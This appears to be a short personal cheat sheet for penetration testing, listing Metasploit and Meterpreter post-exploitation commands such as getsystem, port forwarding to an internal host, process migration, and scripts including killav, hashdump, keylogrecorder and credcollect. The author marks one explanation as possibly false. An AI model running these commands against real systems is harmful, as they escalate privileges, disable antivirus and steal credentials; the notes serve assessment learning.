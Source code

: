 ```yaml
---
title: CISA
---
```


# Cybersecurity and Infrastructure Security Agency (CISA)
[Tools for CISA-RVA](./recon.md)
[Metasploit Primer](./metasploit.md)
## Methodology 

## Metasploit
###### Commands
```
show targets
show options
```

## Meterpreter
Suggest post exploitation paths
```
run post/multi/recon/local_exploit_suggester
```
Get Administrator
```
getsystem
```
Drop into a command prompt
```
shell
```

Creates relay from a meterpreter session
```
portfwd add -l 22 -p 22 -r 10.20.170.87
```

###### Systeminfo
Check the system and current process that the session is running as. I had an issue where the exploit gave me a x86 (WOW64 32 bit) shell and the privesc needed x64 (64bit).
^ This statement might be completely false lol ^
```
sysinfo
```

###### I am not sure if this migrated me to a (x86) process.
```
run post/windows/manage/migrate
```

###### Core Commands
Background the meterpreter session
```
background
```
Bring that meterpreter session to the foreground. Trick here is hitting tab to see available sessions. 
```
session -i "session id"
```

Meterpreter Scripts
```
killav
metsvc
migrate
netenum
prefetchtool
vnc_oneport / vnc
sheduleme
winenum
credcollect
get_local_subnets
getcountermeasure
getgui
gettelnet
hashdump
keylogrecorder
checkvm
```

